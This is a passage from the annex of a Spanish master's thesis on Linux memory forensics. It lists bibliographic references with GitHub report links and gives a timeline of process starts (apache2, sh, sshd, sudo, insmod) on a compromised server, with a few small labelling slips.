- URL: [https://andreafortuna.org/2019/08/22/how-to-generate-a-volatility-profile-for-a-linux-system/](https://andreafortuna.org/2019/08/22/how-to-generate-a-volatility-profile-for-a-linux-system/)

[Volver at texto de la referencia en la Sección 3.3.0.](#330-referencia-012-330-referencia-013-330-referencia-014)

---

#### 8.5.015. Informe memmap:

- Autor: José Enrique Rodríguez González.
- Título del trabajo: 008-informe-memmap.
- - URL repositorio Github: [008-informe-memmap.txt](https://github.com/jrodg85/TFM-ANALISIS-FORENSE/blob/main/referencias/008-informe-memmap.txt)

[Volver at texto de la referencia en la Sección 3.3.4.](#334-referencia-015)

---

#### 8.5.016. Informe dmesg:

- Autor: José Enrique Rodríguez González.
- Título del trabajo: 009-informe-dmesg.
- URL repositorio Github: [009-informe-dmesg.txt](https://github.com/jrodg85/TFM-ANALISIS-FORENSE/blob/main/referencias/009-informe-dmesg.txt)

[Volver at texto de la referencia en la Sección 3.4.6.](#346-referencia-016)

---

#### 8.5.017. Security elinux.org:

- Autor: Wmat
- Ultimo editor: Tim Bird
- Título visualizado: Security
- Criterio de ordenación predeterminado: Security
- URL: [https://elinux.org/Security](https://elinux.org/Security)

[Volver at texto de la referencia en la Sección 3.4.6.](#346-referencia-017)

---

#### 8.5.018. Package: python3-certbot-apache (2.1.0-2):

- Autor: Debian.org
- Título visualizado: Package: python3-certbot-apache (2.1.0-2)
- URL: [https://packages.debian.org/sid/python3-certbot-apache](https://packages.debian.org/sid/python3-certbot-apache)

[Volver at texto de la referencia en la Sección 3.4.7.](#347-referencia-018)

---

    

#### 8.5.019. Informe tree:

- Autor: José Enrique Rodríguez González.
- Título del trabajo: 011-informe-tree.
- URL repositorio Github: [010-informe-dmesg.txt](https://github.com/jrodg85/TFM-ANALISIS-FORENSE/blob/main/referencias/010-informe-tree.txt)

[Volver at texto de la referencia en la Sección 3.5.3.](#353-referencia-019)

---

#### 8.5.020. Informe invalid user:

- Autor: José Enrique Rodríguez González.
- Título del trabajo: 011-informe-tree.
- URL repositorio Github: [011-informe-invalid-user-login.txt](https://github.com/jrodg85/TFM-ANALISIS-FORENSE/blob/main/referencias/011-informe-invalid-user-login.txt)

[Volver at texto de la referencia en la Sección 4.4.](#44-referencia-020)

---

[Volver al Índice del capítulo 8. Anexos.](#índice-del-capítulo-8-anexos)

[Volver al Índice General.](#índice-general)

---

                         

## 8.6. Linea de tiempo de evidencias.

- 2019-01-03 04:24:46 UTC+0000
    - Arranque del proceso kworker/0:0
        - Pid: 19056
- 2019-01-03 05:50:42 UTC+0000
    - Arranque del proceso kworker/u30:2
        - Pid: 19454
- 2019-01-03 06:25:21 UTC+0000
    - Arranque del proceso apache2
        - Pid: 19704
- 2019-01-03 06:25:21 UTC+0000
    - Arranque del proceso apache2
        - Pid: 19705
- 2019-01-03 06:25:21 UTC+0000
    - Arranque del proceso apache2
        - Pid: 19706
- 2019-01-03 06:25:21 UTC+0000
    - Arranque del proceso apache2
        - Pid: 19707
- 2019-01-03 06:25:21 UTC+0000
    - Arranque del proceso apache2
        - Pid: 19708
- 2019-01-03 06:25:21 UTC+0000
    - Arranque del proceso kworker/0:1
        - Pid: 19709
- 2019-01-03 06:33:15 UTC+0000
    - Arranque del proceso apache2
        - Pid: 19952
- 2019-01-03 06:33:16 UTC+0000
    - Arranque del proceso apache2
        - Pid: 19953
- 2019-01-03 07:26:31 UTC+0000
    - Arranque del proceso apache2
        - Pid: 20230
- 2019-01-03 07:26:32 UTC+0000
    - Arranque del proceso apache2
        - Pid: 20231
- 2019-01-03 07:26:33 UTC+0000
    - Arranque del proceso apache2
        - Pid: 20232
- 2019-01-03 07:26:34 UTC+0000
    - Arranque del proceso apache2
        - Pid: 20233
- 2019-01-03 07:32:10 UTC+0000
    - Arranque del proceso sh
        - Pid: 20381
- 2019-01-03 07:49:45 UTC+0000
    - Ver Comandos [Linux bash](#84003004007001-comando-sudo-python27-volpy---profilelinuxlinuxubuntu_4_15_0-1021-aws_profilex64--f-homejrodg85server_rammem-linux_bash).
- 2019-01-03 07:50:04 UTC+0000
    - Arranque del proceso sshd
        - Pid: 20483
- 2019-01-03 07:50:05 UTC+0000
    - Arranque del proceso systemd
        - Pid: 20485
- 2019-01-03 07:50:05 UTC+0000
    - Arranque del proceso (sd-pam)
        - Pid: 20486
- 2019-01-03 07:50:05 UTC+0000
    - Arranque del proceso sshd
        - Pid: 20576
- 2019-01-03 07:50:05 UTC+0000
    - Arranque del proceso bash
        - Pid: 20577
- 2019-01-03 08:01:34 UTC+0000
    - Arranque del proceso pickup
        - Pid: 20703
- 2019-01-03 08:09:21 UTC+0000
    - Arranque del proceso kworker/u30:1
        - Pid: 20781
- 2019-01-03 08:16:28 UTC+0000
    - Arranque del proceso kworker/u30:0
        - Pid: 20886
- 2019-01-03 08:17:06 UTC+0000
    - Arranque del proceso sudo
        - Pid: 20893
- 2019-01-03 08:17:06 UTC+0000
    - Arranque del proceso insmod
        - Pid: 20894
- 2019-01-03 08:17:06 UTC+0000
    - Arranque del proceso kworker/0:2
        - Pid: 20898

[Volver al Índice del capítulo 8. Anexos.](#índice-del-capítulo-8-anexos)

[Volver al Índice General.](#índice-general)

---

XVII linux_arp 

XVIII linux_ifconfig

XIX. Comando linux_netstat.	129
XX. Resumen del comando linux_netstat.	137
XXI. Comando hash MD5 y SHA1 del disco duro.	139

